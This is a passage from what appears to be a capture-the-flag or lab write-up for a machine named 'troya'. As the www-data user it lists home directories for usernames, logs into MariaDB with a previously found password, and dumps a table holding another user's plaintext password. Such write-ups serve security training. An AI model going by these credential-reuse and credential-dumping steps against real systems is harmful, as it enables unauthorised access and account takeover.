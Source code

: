 
3. Usernames of users to try from home directory

```bash
www-data@troya:/tmp$ ls -la /home
ls -la /home
total 20
drwxr-xr-x  5 root   root   4096 Oct 22  2020 .
drwxr-xr-x 18 root   root   4096 Oct 22  2020 ..
drwxr-xr-x  2 hector hector 4096 Oct 22  2020 hector
drwxr-xr-x  3 helena helena 4096 Oct 22  2020 helena
drwxr-xr-x  2 paul   paul   4096 Oct 22  2020 paul
```
After which I try to enumerate the mysql server with the username and password found.

```bash
www-data@troya:/tmp$ mysql -u hector -p
mysql -u hector -p
Enter password: pazzword

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 49
Server version: 10.3.25-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| yo                 |
+--------------------+
2 rows in set (0.008 sec)

Database changed
MariaDB [yo]> show tables;
show tables;
+--------------+
| Tables_in_yo |
+--------------+
| lucky        |
+--------------+
1 row in set (0.000 sec)

MariaDB [yo]> select * from lucky;
select * from lucky;
+----+--------+--------------------+
| id | uzer   | pazz               |
+----+--------+--------------------+
|  1 | helena | iuyqwejkhdsaiuyewq |
+----+--------+--------------------+
1 row in set (0.000 sec)

```
